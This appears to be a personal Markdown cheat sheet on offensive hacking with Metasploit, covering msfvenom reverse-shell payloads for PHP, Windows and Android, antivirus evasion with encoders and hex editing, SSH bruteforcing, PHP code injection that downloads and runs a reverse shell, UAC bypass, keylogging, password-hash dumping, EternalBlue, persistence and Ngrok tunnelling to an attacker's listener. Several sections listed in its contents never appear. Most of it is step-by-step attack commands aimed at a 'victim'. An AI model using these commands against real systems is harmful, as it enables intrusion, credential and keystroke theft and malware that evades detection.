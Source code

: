 # System Hacking

## Tables des matière
 - [MSFconsole environment](#MSFconsole-environment)
 - [Metasploit framwork](#Metasploit-framwork)
 - [Bruteforcing SSH with Metasploit](#Bruteforcing-SSH-with-Metasploit)
 - [DNS spoofing](#DNS-spoofing)
 - [HTTPS credentials sniffing](#HTTPS-credentials-sniffing)
 - [Hooking browsers with BEEF](#Hooking-browsers-with-BEEF)
 - [Some stuff you can do with mitmf](#Some-stuff-you-can-do-with-mitmf)
 - [Cloning any webpage](#Cloning-any-webpage)
 - [Ettercap](#Ettercap)

### MSFconsole environment

`service postgresql start` to run your metasploit framwork faster using sql databases.

Start Msfconsole --> `msfconsole`
	
You can run every linux commands in the msfconsole terminal
	
Search command to see available exploit --> for example `search windows`

Use command to go to this exploit  --> for example `use <exploit_path>`

Show command --> `show info`, `show options`, `show targets`, `show payload` 

In order to use some of the payload available for this exploit --> `set PAYLOAD <payload_path>`. You can see payload options --> `show options`. You can set the options for this payload --> `set <option_name> <value>` --> For example `set LHOST 192.168.1.246`
			   

### Metasploit framwork 

In `/usr/share/metasploit-framework/` :
	msfconsole --> run the msfconsole
	msfvenom   --> create payloads and backdoors
	msfupdate  --> update metasploit framework
	auxilary/  --> for scanning
	encoders/  --> for bypass antivirus, antiviruses have got a huge database of known exploits and viruses, if you run a program which is a known virus, the antivirus can alert an delete it. But if you change or scramble a litle bit the code, you can bypass them because the code is not in their database.
	post/      --> tools or programs you can use after infecting the target. You can download them with a reverse shell and do some informations gathering.
	nops/      --> command in assembly language and it's perform no operation.	
	
Every exploits, payloads... are stored in `/usr/share/metasploit-framework/modules`
In payloads directory :
	singles --> payload that perform only one action
	stagers --> use to deliver an another payload
	stages  --> larger payload which allows you to make some meterpreter shell (reverse shell), NVC...	

### Bruteforcing SSH with Metasploit

With nmap command, we find that the victim has his ssh port open. (22)
	Search an auxiliary module in msf "search ssh", for bruteforcing ssh login let's go to auxiliary/scanner/ssh/ssh_login module (before you can see the version of ssh with ssh_version module)
	Set your options you want (RHOSTS, THREAD, STOP_ON_SUCCESS, PASSWD_LIST, USERS_LIST...)
	And type the command "run" or "exploit"

Attacking Tomcat with Metasploit :
	 
	With nmap command, we find that the victim has his tomcat port open. (8080)
	We use auxiliary/scanner/http/tomcat_mgr_login module.

Getting Meterpreter with command injection : 

	Type "msfvenom -p php/meterpreter/reverse_tcp LHOST=<ip_of_the_listener(me)> LPORT=<ip_of_the_listening_port(For metasploit it's 4444)> -e <encrypting_algorithm> -f raw > <file_you_want_to write>
	Add the php beacons to the file.
	Move this file to your main apache2 server as the main page.
	Make the server download your file with a wget command.
	Start listening on the port you specify in the command before go to metasploit framework : 
		"msfconsole --> use exploit/multi/handler --> set payload <ayload_you_created_befored(php/meterpreter/reverse_tcp?> --> set LHOST <ip_listening_host> --> "exploit"
		To make the process running in background, type "exploit -j -z" --> to enter to a session type "sessions -i <process_id>
		To make your session in the background type "background"
	With the command injection vulnerability, run php -f <file_you_created> on the victim input. You see that you receive some packets on your terminal which runs the last command.

PHP code injection :

	To see if a web site is vulnerable to php code injection, use the system function with some basics linux commands in the input --> system('pwd')
	If it's work, you can perform a wget in order to download your reverse_shell and execute it on the victim server.

Metasploitable exploit : 

	The OWASP machine has its netbios-ssn (139 tcp) port open running on samba 3X - 4X : 
		Search on the msfconsole something linked with it --> search samba
		Show the payloads available for this exploit. We take the cmd/unix/reverse. Specify the required options for this payload (RHOST in this case).
		Run the exploit, on the OWASP it's doesn't work but on the metsploitable machine it's should work. 

Wine :

	Linux programs which allows you to run Winodws program on your Linux machine.
	Make python programs in Linux and make them runable in Linux.
	After the instalation of python 2.7.14 with wine (wine msiexec /i <file_python_2.7.14.msi>), wine created a virtual C:/ drive in each directory --> go to .wine/drive_c/
	If you want run a .exe in Linux, you must type wine before the program name.

Creating Windows payloads with Msfvenom : 

	Search a interesting payload --> search payload/windows --> you can use the x64 or x32, it depends of the victim machine --> remember the name of the payload you want, in this case payload/windows/x64/meterpreter/reverse_tcp  
	Create your payload --> "msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<listener_ip_adress(you?)> LPORT=4444 -f exe > reverse.exe


Encoders and hexeditor :

	VirusTotal : web site that allows us to upload a file and it will print out a list of how antiviruses detect this file as a virus. (be careful, this site sends each file to antiviruses databases) 
	In order to make your payloads less detectable by AV, you need to encode your payload.
	Search what encoders are available with your payload and add the parameter "-e" to your command.
	You can iterate a number of time your payload. Add "-i" parameter.
	With Hexeditor, you can change bytes when you have comments, phrases in the payload code.

Interesting commands on windows :

	getsystem --> privileges escalation for old versions of windows
	keyscan_start --> record all of the char when the victim is typing something. 
	keyscan_dump --> view all of the information that keylogger have after making him started. 
	keyscan_stop --> stop the keylogger

Windows 10 privilege escalation :

	Make your process in the background and type "search bypassuac". (The bypassuac_fodhelper is the stronger from now on)
	Use the exploit you want, and set the session id of your meterpreter and "exploit" (sometimes it's created the session sometimes not, try until you get a sesion open)
	In order to get the privilege type "getsystem"
	
Post exploiting module :

	When you have the local system account :
		--> use sniffer (some options will work and some not for this module) (sniff the networks of interfaces)
			alternativ --> run packetrecorder 
		--> use post/windows/gather/arp_scanner --> ARP scan
		--> run post/windows/gather/checkvm --> check if the program is running on a vm or a pm.
		--> run post/windows/gather/hasdump --> get the password hash of each user
			alternativ --> run post/windows/gather/credentials/crediental_collector
		--> run post/windows/gather/enum_application --> enum all of the installed application with versions
		--> run post/windows/gather/enum_logged_on_users

Eternalblue exploit :

	"git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git"
	copy debs/ and *.rb in the directory /usr/share/metasploit-framework/modules/exploits/windows/smb
	Start msf console and use the exploit, as root. Change some options if it's required (PROCESSINJECT lsass.exe for x64).
	"Set payload windows/x64/meterpreter/reverse_tcp" --> set LHOST <listener_ip(you?) --> exploit
	The eternalblue exploit allows us to hack the target without any action of this one.

Persistence module :

	"run persistence -U" --> start the program when user log on.	
	"run persistence -X" --> start the program when he system boots.
	"run persistence (-U) -i <seconds>" --> interval of connecting tries
	"run persistence (-X -i <seconds>) -p <port(443?)> -r <remote_ip(your_ip_adress?)>"

Ngrok :

	Download Ngrok on their website and create an account to have the token.
	A port forwarding alternativ when you don't have access to the router (open wifi for example).
	The Ngrok web site allows you to have an open port on thier website and redirect the trafic to you when someone connects to this open port.
	If you want to redirect the trafic to a specific port with tcp --> ./ngrok tcp <port>
	When you create payload, make sure that you LHOST is the ip adress ngrok gives to you as same as the port number for LPORT.
	In msfconsole, on your multi/handler, make sure that the LHOST of the payload is 0.0.0.0 and the LPORT is the same when you have ran the command "./ngrok..."

Android device attack :

	msfvenom -p android/meterpreter/reverse_tcp LHOST=<listener_ip(you?)> LPORT=<listener_port(4444?)> R > <path_to_the_file>.apk
	Go to multi/handler on msfconsole, set the same payload and the corret options.

